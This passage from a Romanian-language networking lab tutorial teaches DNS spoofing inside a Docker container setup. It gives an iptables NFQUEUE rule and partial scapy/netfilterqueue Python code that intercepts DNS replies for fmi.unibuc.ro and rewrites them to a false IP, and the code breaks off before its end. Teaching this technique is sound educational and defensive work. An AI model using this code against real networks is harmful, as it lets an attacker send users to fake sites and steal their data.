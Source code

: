 Testați-l cu
```bash
dig @localhost fmi.unibuc.ro
```

<a name="scapy_dns_spoofing"></a> 
#### DNS Spoofing
Dacă intermediem conexiunea între două noduri, putem insera răspunsuri DNS malițioase cu scopul de a determina userii să acceseze pagini false. Pe linux, un DNS customizabil se poate set prin fișierul `/etc/resolv.conf` sau ca în [exemplul de aici](https://unix.stackexchange.com/questions/128220/how-do-i-set-my-dns-when-resolv-conf-is-being-overwritten)).

Presupunem că folosim configurația de containere definită în acest capitol, că ne aflăm pe containerul `router` și că monitorizăm toate cererile containerul `server`. În cazul în care observăm un pachet UDP cu portul destinație 53 (e.g., IP destinație 8.8.8.8), putem încerca să trimitem un reply care să pară că vine de la DNS (8.8.8.8) cu o adresă IP falsă care nu apraține numelui interogat de către server. 
E posibil ca reply-ul nostru să ajungă la containerul `server`, dar și reply-ul serverul DNS original (8.8.8.8) să ajungă tot la container. Pentru ca atacul să fie cât mai lin, cel mai sigur este să modificăm live răspunsurile DNS-ului original (8.8.8.8) după următoarele instrucțiuni ([sursa originală](https://www.thepythoncode.com/article/make-dns-spoof-python)):

##### 1. iptables forward către nfqueue
Ne atașăm containerului `router` pentru a ataca containerul `server`. Construim o regulă de iptables prin care toate pachetele care trebuie forwardate (-I FORWARD) să treacă prin regula NFQUEUE cu număr de identificare 10 (putem alege orice număr).
```bash
docker-compose exec router bash

iptables -I FORWARD -j NFQUEUE --queue-num 10
```
##### 2. Scriem o funcție care detectează și modifică pachete de tip DNS reply
Deschidem un terminal de python sau executăm `python3 /elocal/capitolul3/src/examples/dns_spoofing.py`:
```python
#!/usr/bin/env python3

from scapy.all import *
from netfilterqueue import NetfilterQueue as NFQ
import os

def detect_and_alter_packet(packet):
    """Functie care se apeleaza pentru fiecare pachet din coada
    """
    octets = packet.get_payload()
    scapy_packet = IP(octets)
    # daca pachetul are layer de IP, UDP si DNSRR (reply)
    if scapy_packet.haslayer(IP) and scapy_packet.haslayer(UDP) and scapy_packet.haslayer(DNSRR):\
        # daca e site-ul fmi, apelam functia care face modificari
        if scapy_packet[DNSQR].qname == b'fmi.unibuc.ro.':
            print("[Before]:", scapy_packet.summary())
            # noul scapy_packet este modificat cu functia alter_packet
            scapy_packet = alter_packet(scapy_packet)
            print("[After ]:", scapy_packet.summary())
            # extragem octetii din pachet
            octets = bytes(scapy_packet)
            # il punem inapoi in coada modificat
            packet.set_payload(octets)
    # apelam accept pentru fiecare pachet din coada
    packet.accept()


def alter_packet(packet):
    # obtinem qname sau Question Name
```